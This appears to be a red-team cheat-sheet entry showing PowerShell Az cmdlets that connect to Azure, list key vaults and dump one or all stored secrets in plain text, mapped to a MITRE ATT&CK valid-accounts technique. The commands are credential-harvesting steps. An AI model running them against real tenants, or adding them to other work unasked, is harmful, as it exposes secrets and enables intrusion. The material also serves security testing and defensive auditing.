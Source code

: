 # Dump Keyvault secret Powershell

**Description:** This entry details how to authenticate to an Azure account with Powershell, list keyvaults, and dump a password in plain text 

**Requirements:** AZ Powershell

**Mitre Att&ck:** https://attack.mitre.org/techniques/T1078/

## Dump a single secret

```powershell
Connect-AzAccount
```

Authenticate to Azure account

```powershell
Get-AzKeyVault
```

List all vaults

```powershell
Get-AzKeyVaultSecret -VaultName <keyvault_name>
```

List all secrets

```powershell
Get-AzKeyVaultSecret -VaultName '<keyvault_name>' -Name '<secret_name>' -AsPlainText
```

Dump secret as plain text

```powershell
$secret_name = Get-AzKeyVaultSecret -VaultName <keyvault_name> | select Name
$secret_name | ForEach-Object { Get-AzKeyVaultSecret -VaultName '<keyvault_name>' -Name $_.Name -AsPlainText }
```

Generate list of keyvault secrets and dump each one in plaintext

```powershell
$vaults = Get-AzKeyVault | select VaultName
$secret_names = $vaults | ForEach-Object { Get-AzKeyVaultSecret -VaultName $_.VaultName | select VaultName, Name }
$secret_names | ForEach-Object { Get-AzKeyVaultSecret -VaultName $_.VaultName -Name $_.Name -AsPlainText }
```

Generate list of keyvaults, discover all secrets in vaults, dump all passwords from all vaults in plaintext

## References
* https://docs.microsoft.com/en-us/powershell/module/az.keyvault/get-azkeyvaultsecret?view=azps-6.1.0
